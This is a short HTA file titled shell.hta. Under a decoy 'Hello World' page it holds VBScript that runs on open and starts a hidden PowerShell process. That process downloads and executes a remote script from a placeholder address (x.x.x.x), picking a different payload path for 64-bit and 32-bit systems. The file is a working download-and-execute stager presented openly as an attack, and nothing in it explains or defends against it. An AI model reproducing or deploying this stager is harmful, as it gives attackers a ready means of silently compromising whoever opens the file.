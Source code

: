 # shell.hta

<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>aaaaaaa</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
  Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"""
  End If

End Function
    Pwn
  </script>
</html>
